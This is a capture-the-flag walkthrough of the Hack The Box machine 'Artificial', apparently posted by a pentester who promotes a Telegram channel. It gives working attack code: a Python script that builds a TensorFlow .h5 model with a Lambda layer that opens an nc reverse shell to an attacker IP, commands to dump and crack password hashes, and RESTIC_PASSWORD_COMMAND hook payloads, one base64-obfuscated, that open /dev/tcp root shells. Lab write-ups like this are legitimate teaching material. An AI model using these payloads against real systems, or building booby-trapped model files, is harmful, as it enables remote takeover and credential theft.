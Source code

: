 **Platform:** Linux\
**IP:** 10.129.70.3\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Follow the HTB grind in real-time — leaks, drops, and deep writeups**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Don't read. Join._

---

## Recon

```bash
nmap -sC -sV -T4 10.129.70.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts edit:**
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration

The website provides login and registration functionality. After signing up, it allows uploading `.h5` files.

### Generating a malicious TensorFlow model(tenserflow-cpu==2.13.1 a required)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker command:**
```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

After uploading:
```bash
nc -lvnp 4444
```

---

## SQLite Database Enumeration

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Found: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Cracking hashes (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Example results:
```
mattp005
marwinn
```

---

## Privilege Escalation (Backup leak)

Using the `redteam-launcher` to check backups(https://github.com/No4Sec/redteam-launcher):
```
/var/backups/backrest_backup.tar.gz
```

**Download via HTTP server:**
```bash
cd /var/backups
python3 -m http.server
```

**On Kali:**
```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Extract:**
```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**
```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode:
```bash
cat hash.txt | base64 -d
```

John bcrypt:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

After port forwarding, we can access the Backrest login page. Use the dumped credentials to log in and create a new repo.

**Environment variable exploit:**
```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Important:** for the `Hook` field, use:
```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Why base64?** Because the input field tends to break special characters. Encoding helps to deliver the payload cleanly.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Then submit, and we get a root shell back:
```bash
nc -lvnp 4444
```
```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---

## 🧩 Summary

Artificial is an easy but creative machine combining multiple exploitation vectors:

- Remote shell via malicious machine learning model
- Hash extraction from SQLite database
- Bcrypt hash found in backup archive
- RESTIC environment variable leading to RCE and root shell

The `.h5` TensorFlow model with embedded code execution and the RESTIC hook exploit were both unique highlights of the box.

**Key takeaways:**
- Never trust user-uploaded files
- Avoid running backup services as root
- Always inspect `.tar.gz` files — they may contain secrets :)

---

🎯 Rooted. Moving on to the next one. //

